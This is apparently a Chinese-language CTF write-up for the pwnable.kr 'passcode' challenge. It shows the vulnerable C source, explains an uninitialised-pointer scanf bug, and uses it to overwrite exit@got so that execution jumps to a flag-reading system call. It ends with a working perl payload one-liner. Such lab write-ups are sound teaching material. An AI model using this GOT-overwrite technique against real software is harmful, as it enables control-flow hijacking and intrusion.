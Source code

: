 ```yaml
---
title: passcode
author: rk700
layout: post
redirect_from: 
  - /writeup/2014/11/16/passcode
  - /writeup/2014/11/16/passcode/
tags:
  - exploit
  - pwnable.kr
---
```

代码如下

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

void login(){
        int passcode1;
        int passcode2;

        printf("enter passcode1 : ");
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);

        printf("checking...\n");
        if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
                exit(0);
        }
}

void welcome(){
        char name[100];
        printf("enter you name : ");
        scanf("%100s", name);
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
{% endhighlight %}

问题出在`login()`中，`scanf`的第二个参数给的不是变量的地址。如果`passcode1`和`passcode2`的初始值指向不可写的地方，而且`scanf`成功，那么就会segfault

于是思路就是，在`login()`执行前，在`welcome()`中把栈上的值设好。所以这道题和OverTheWire上的Manpage里一道题思路有相似的地方

具体地，`name`在`welcome()`中的地址是`ebp-0x70`，`passcode1`和`passcode2`在`login()`中的地址是`ebp-0x10`和`ebp-0xc`。正好我们只能改写`passcode1`，改不了`passcode2`。于是单纯地想把两个都修改为检查值的方法行不通了

但是我们发现，`passcode1`那里由于`scanf`，可以做到写4 bytes到任意地址。所以我们可以修改程序流程，让他跳到`system`读flag那里。

而由于ASLR，想修改返回地址不靠谱，于是我们可以修改`exit@got`。这样检查失败后，调用`exit(0)`就成了`system("/bin/cat flag");`

由`readelf -r passcode`可知`exit@got`在`0x0804a018`，于是把`passcode1`设为它；然后通过`scanf`将其改为`0x080485e3=134514147`。注意我们要让`passcode2`在`scanf`时不能segfault，于是输入非数字让`scanf`失败

<pre>$ perl -e 'print "A"x96 . "\x18\xa0\x04\x08" . "134514147\n" . "f\n"' | ./passcode</pre>

